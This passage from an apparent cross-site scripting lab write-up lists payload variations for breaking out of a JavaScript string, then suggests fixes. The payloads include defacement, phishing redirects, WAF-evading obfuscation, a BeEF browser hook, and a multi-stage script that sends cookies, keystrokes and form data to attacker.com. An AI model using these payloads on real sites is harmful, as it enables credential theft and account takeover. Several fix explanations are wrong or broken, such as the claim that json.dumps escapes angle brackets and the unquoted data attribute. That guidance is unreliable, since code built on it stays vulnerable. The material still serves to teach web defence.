\'; document.body.innerHTML='<h1>HACKED!</h1>'; //

Purpose:
└── Replaces entire page

Effect:
<script>
    var searchQuery = '\\'; 
    document.body.innerHTML='<h1>HACKED!</h1>'; 
    //';
</script>

Result:
└── Entire page replaced with message
    └── Shows: HACKED!
        └── Site defacement 💥

More sophisticated:
\'; document.body.innerHTML='<iframe src=https://attacker.com/phishing width=100% height=100%></iframe>'; //

Impact:
└── Page replaced with attacker's site
    └── Looks like legitimate page
        └── Phishing opportunity! 💀
```

---

### **Variation 5: Redirect Attack**

```js
Redirect payload:

\'; window.location='https://attacker.com/phishing'; //

Purpose:
└── Redirects to phishing site

Execution:
<script>
    var searchQuery = '\\'; 
    window.location='https://attacker.com/phishing'; 
    //';
</script>

Result:
User immediately redirected
         ↓
Now on phishing site
         ↓
Enters credentials
         ↓
Credentials stolen! 💀

Delayed redirect (stealthier):
\'; setTimeout(()=>location='https://attacker.com',3000); //

Why delay:
└── Page loads normally
    └── User sees content
        └── After 3 seconds, redirects
            └── Less suspicious! ⚠️
```

---

### **Variation 6: BeEF Hook**

```js
BeEF framework integration:

\'; var s=document.createElement('script');s.src='https://attacker.com/beef/hook.js';document.body.appendChild(s); //

Purpose:
└── Hooks browser into BeEF

What BeEF provides:
├── Remote browser control
├── Network scanning
├── Social engineering modules
├── Keylogging
├── Form grabbing
├── Browser exploitation
└── Full attack framework! 💣

Execution flow:
XSS triggers
         ↓
Creates script element
         ↓
Loads hook.js from BeEF server
         ↓
Browser phones home
         ↓
Attacker sees hooked browser
         ↓
Can execute commands remotely! 💀

Capabilities:
└── Point-and-click exploitation
    └── Professional pentesting tool
        └── Full browser compromise! ⚠️
```

---

### **Variation 7: Obfuscated Payload**

```js
Base64 obfuscation:

\'; eval(atob('YWxlcnQoZG9jdW1lbnQuY29va2llKQ==')); //

Decoded:
atob('YWxlcnQoZG9jdW1lbnQuY29va2llKQ==') = 'alert(document.cookie)'

Purpose:
└── Bypasses signature detection

Why it works:
└── WAF looks for "alert", "cookie", etc.
    └── Encoded version doesn't match
        └── Passes through WAF
            └── Executes in browser! ✓

Hex encoding:

\'; eval(String.fromCharCode(97,108,101,114,116,40,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41)); //

Result: alert(document.cookie)

Multiple layers:
\'; eval(atob(String.fromCharCode(89,87,120,108,99,110,81,111,90,71,57,106,100,87,49,108,98,110,81,117,89,50,57,118,97,50,108,108,75,81,61,61))); //

Breakdown:
1. Hex encodes base64
2. Base64 encodes JavaScript
3. Very hard to detect! ✓
```

---

### **Variation 8: Multi-Stage Attack**

```js
Stage 1 loads Stage 2:

\'; var s=document.createElement('script');s.src='https://attacker.com/payload.js';document.body.appendChild(s); //

payload.js contains:
(function() {
    // Cookie theft
    new Image().src = 'https://attacker.com/steal?c=' + document.cookie;
    
    // Keylogger
    document.onkeypress = e => {
        fetch('https://attacker.com/log?k=' + e.key);
    };
    
    // Form hijacking
    document.querySelectorAll('form').forEach(f => {
        f.addEventListener('submit', e => {
            e.preventDefault();
            fetch('https://attacker.com/grab', {
                method: 'POST',
                body: new FormData(f)
            }).then(() => f.submit());
        });
    });
    
    // BeEF hook
    var beef = document.createElement('script');
    beef.src = 'https://attacker.com/beef/hook.js';
    document.body.appendChild(beef);
})();

Benefits:
✅ Initial payload small
✅ Complex code loaded separately
✅ Can update without changing XSS
✅ Modular architecture ✓
```

---

### **Variation 9: Arithmetic Context Bypass**

```js
Using arithmetic operators:

\'-alert(1)-'

How it works:
<script>
    var searchQuery = '\\'-alert(1)-'';
</script>

Parsing:
var searchQuery = '\\' - alert(1) - '';
                  ↑  ↑ ↑         ↑ ↑↑
                  |  | |         | |└── Empty string
                  |  | |         | └── Minus operator
                  |  | |         └── Function call
                  |  | └── Minus operator
                  |  └── String ends
                  └── String starts

Execution:
1. '\\' = String with one backslash
2. - = Subtraction operator (converts to number)
3. alert(1) = Function call (returns undefined)
4. - = Subtraction operator
5. '' = Empty string

Result:
└── NaN (math fails)
    └── But alert(1) EXECUTES during evaluation! 💥

Why this works:
└── JavaScript evaluates expressions left to right
    └── alert(1) called before math fails
        └── Alert displays! ✓

Benefits:
└── No semicolons or comments needed
    └── Different syntax pattern
        └── May bypass some WAFs! ✓
```

---

### **Variation 10: Template Literal Injection**

```js
If backticks allowed:

\`+alert(1)+\`

Note: This requires backticks not to be filtered

How it works:
<script>
    var searchQuery = '\`+alert(1)+\`';
</script>

But this is just text in single quotes.

Better if code uses template literals:
<script>
    var searchQuery = `USER_INPUT`;
</script>

Then:
\${alert(1)}

Creates:
var searchQuery = `\${alert(1)}`;

Executes:
└── Template literal evaluates ${...}
    └── alert(1) runs! 💥

Note:
└── This lab uses single quotes
    └── Not template literals
        └── This variation not applicable here
            └── But good to know! ✓
```

---

### **Variation 11: Unicode Escape Bypass**

```js
Using Unicode escapes:

\'; \u0061lert(1); //

Where:
\u0061 = 'a'

Result:
alert(1)

Full payload:
\'; \u0061\u006c\u0065\u0072\u0074(1); //

Decoded:
\u0061 = a
\u006c = l
\u0065 = e
\u0072 = r
\u0074 = t

Purpose:
└── Obfuscates "alert" string
    └── WAF looking for literal "alert"
        └── Unicode version may pass! ✓

JavaScript interprets Unicode:
└── \uXXXX is valid in JavaScript
    └── Represents character code
        └── Engine converts to characters
            └── Executes normally! ✓
```

---

### **Variation 12: Polyglot Payload**

```js
Works in multiple contexts:

\'; alert(1); var x='

Why polyglot:
└── Breaks current string
    └── Executes alert
        └── Opens new string (prevents errors)
            └── Adapts to context! ✓

In our context:
<script>
    var searchQuery = '\\'; alert(1); var x='';
</script>

Execution:
1. searchQuery = "\\"
2. alert(1) executes! 💥
3. x = "" (valid statement)

In other contexts:
If reflected multiple times
Or in different string types
Payload adapts! ✓

Benefits:
└── Universal exploitation
    └── Don't need exact context knowledge
        └── Higher success rate! ✓
```

---

### **Variation 13: Chained Payloads**

```js
Multiple attacks in sequence:

\'; alert(1); alert(2); alert(3); //

Result:
└── Three alerts in sequence
    └── Demonstrates multiple execution
        └── Could be different attacks! ✓

Practical chaining:
\'; new Image().src='https://attacker.com/steal?c='+document.cookie; document.onkeypress=e=>fetch('https://attacker.com/log?k='+e.key); //

Execution:
1. Steals cookie immediately
2. Installs keylogger
3. Both active simultaneously! 💀

Benefits:
└── Multiple attack vectors
    └── Redundancy (if one fails)
        └── Maximum impact! ✓
```

---

### **Variation 14: Context-Aware Attack**

```js
Detects page type and adapts:

\'; if(document.querySelector('form[action*=login]')){document.querySelector('form').action='https://attacker.com/grab'}else{new Image().src='https://attacker.com/steal?c='+document.cookie}; //

Logic:
└── If login form exists
    └── Hijack it
        └── Else steal cookie

Smart exploitation:
└── Adapts to page content
    └── Maximizes impact
        └── Intelligent attack! 🎯

Benefits:
✅ One payload, multiple vectors
✅ Context-appropriate
✅ Higher value data stolen
✅ Professional approach ✓
```

---
---

## 🛡️ **How to Fix (Secure Code)**

---

### **Fix 1: Escape Both Backslashes and Quotes (Best)**

```python
# ✅ SECURE - Proper escaping of backslashes AND quotes

from flask import Flask, request

app = Flask(__name__)

def js_string_escape(s):
    """
    Properly escape string for JavaScript context
    CRITICAL: Escape backslashes FIRST, then quotes!
    """
    # Step 1: Escape backslashes first
    s = s.replace('\\', '\\\\')
    
    # Step 2: Escape single quotes second
    s = s.replace("'", "\\'")
    
    # Step 3: Also escape other dangerous characters
    s = s.replace('\n', '\\n')
    s = s.replace('\r', '\\r')
    s = s.replace('\t', '\\t')
    
    return s

@app.route('/search')
def search():
    query = request.args.get('search', '')
    
    # Properly escape for JavaScript string
    safe_query = js_string_escape(query)
    
    return f"""
    <!DOCTYPE html>
    <html>
    <head><title>Search</title></head>
    <body>
        <h1>Search Results</h1>
        <script>
            var searchQuery = '{safe_query}';
            document.write('');
        </script>
    </body>
    </html>
    """

# How it works:
# Input: \'; alert(1); //

# Step 1: Escape backslashes
# \ → \\
# Result: \\'; alert(1); //

# Step 2: Escape quotes
# ' → \'
# Result: \\\'; alert(1); //

# In HTML:
# var searchQuery = '\\\'; alert(1); //';

# Browser JavaScript parsing:
# \\\' = Two escaped characters:
#   \\ = One backslash
#   \' = One quote (in string)
# Result: searchQuery = "\' ; alert(1); //"
# └── All inside string! ✓

# Why order matters:
# If we escape quotes first:
# Input: \'
# Quote first: \\'
# Backslash second: \\\\'
# ← Extra escaping!

# If we escape backslashes first:
# Input: \'
# Backslash first: \\'
# Quote second: \\\\'
# ← Correct! ✓

# Benefits:
# ✅ Comprehensive escaping
# ✅ Correct order prevents bypasses
# ✅ Handles all escape sequences
# ✅ Maximum security! ✓
```

---

### **Fix 2: Use JSON Encoding**

```python
# ✅ SECURE - JSON encoding for JavaScript

from flask import Flask, request
import json

app = Flask(__name__)

@app.route('/search')
def search():
    query = request.args.get('search', '')
    
    # Use JSON encoding - handles ALL escaping correctly
    safe_query = json.dumps(query)
    
    return f"""
    <!DOCTYPE html>
    <html>
    <head><title>Search</title></head>
    <body>
        <h1>Search Results</h1>
        <script>
            var searchQuery = {safe_query};
            document.write('');
        </script>
    </body>
    </html>
    """

# How JSON encoding works:
# Input: \'; alert(1); //

# json.dumps() escapes:
# ├── \ → \\
# ├── ' → \' (if in string)
# ├── " → \"
# ├── / → \/
# ├── < → \u003c (prevents </script>)
# └── > → \u003e

# Result: "\\'; alert(1); //"
#          ↑                ↑
#          └── Double quotes added
#              └── Content properly escaped

# In HTML:
# var searchQuery = "\\'; alert(1); //";

# Browser JavaScript parsing:
# String in double quotes
# Content: \'; alert(1); //
# All text, no code execution! ✓

# Benefits:
# ✅ Standard library function
# ✅ Handles all cases correctly
# ✅ Also escapes < > / (prevents </script>)
# ✅ Industry best practice! ✓
```

---

### **Fix 3: Content Security Policy (CSP)**

```html
<!-- ✅ SECURE - CSP blocks inline event handlers -->

<!-- Server sends CSP header: -->
<!-- Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-abc123' -->

<!DOCTYPE html>
<html>
<head>
    <meta http-equiv="Content-Security-Policy" 
          content="default-src 'self'; script-src 'self' 'nonce-abc123'">
    <title>Search</title>
</head>
<body>
    <h1>Search Results</h1>
    
    <script nonce="abc123">
        var searchQuery = 'USER_INPUT';
        document.write('');
    </script>
</body>
</html>

<!-- How CSP helps: -->
<!--
Even if XSS payload injected:
var searchQuery = '\\'; alert(1); //';

CSP behavior:
├── Inline script has correct nonce → Executes
├── alert(1) is inline code → Blocked by CSP!
└── No inline code execution allowed! ✓

But note:
└── This CSP allows the nonce script
    └── So alert(1) within that script CAN execute
        └── CSP alone NOT sufficient here! ⚠️

Better CSP approach:
└── No inline scripts at all
    └── All JavaScript in external files
        └── Then CSP fully effective! ✓

Benefits:
✅ Defense in depth
✅ Reduces XSS impact
✅ Industry standard
✅ But must be combined with proper escaping! ✓
-->
```

---

### **Fix 4: Avoid Inline JavaScript**

```python
# ✅ SECURE - No inline JavaScript

from flask import Flask, request
import json

app = Flask(__name__)

@app.route('/search')
def search():
    query = request.args.get('search', '')
    
    # Store in data attribute
    safe_query = json.dumps(query)
    
    return f"""
    <!DOCTYPE html>
    <html>
    <head>
        <title>Search</title>
        <script src="/static/search.js"></script>
    </head>
    <body>
        <h1>Search Results</h1>
        <div id="search-data" data-query={safe_query}></div>
    </body>
    </html>
    """

# External script (search.js):
"""
document.addEventListener('DOMContentLoaded', function() {
    var searchData = document.getElementById('search-data');
    var query = searchData.dataset.query;
    
    // Use query safely
    var img = document.createElement('img');
    img.src = '/tracker.gif?search=' + encodeURIComponent(query);
    document.body.appendChild(img);
});
"""

# Benefits:
# ✅ No inline JavaScript with user input
# ✅ User input in HTML attribute (auto-escaped)
# ✅ External script is trusted
# ✅ CSP can enforce script-src 'self'
# ✅ No JavaScript string injection possible! ✓
```

---
